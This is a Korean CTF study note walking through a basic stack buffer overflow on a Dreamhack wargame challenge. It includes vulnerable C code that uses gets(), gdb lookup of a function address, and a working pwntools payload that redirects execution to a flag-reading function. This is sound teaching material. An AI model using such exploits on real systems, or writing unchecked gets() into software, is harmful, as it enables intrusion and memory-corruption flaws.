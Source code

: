 ```c
void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```
`gets` 입력 함수는 bof 취약한 함수이다.
buf크기 만큼 덮고 SFP (4) 만큼 덮고 RET 로 read_flag() 함수 주소를 적으면된다.

### 2. gdb
gdb로 `info func`를 통해 read_flag의 함수주소를 본다.
0x080485b9

### 3. Payload 
```py
from pwn import *

r= remote("host3.dreamhack.games",17163)

payload = b'A'*0x80
payload += b'B'*0x4
payload += p32(0x080485b9)
r.sendline(payload)
r.interactive()
```

## + bof basic 문제
[ELF x64 - Stack buffer overflow - basic](https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic)

---
- 어떤 문제를 풀지 정해줄까 아니면 각자 풀고 싶은 워게임 풀어오는 것으로 할까🤔?..<br>
 필수과제 + 선택과제 는 어떤지? 
 
# 과제


## 참고자료
[checksec 보호기법](https://hackyboiz.github.io/2021/10/27/y00n_nms/linux-mitigation/)

[shellcode](https://yun-2.tistory.com/entry/Dreamhack-Level2-basicexploitation000)
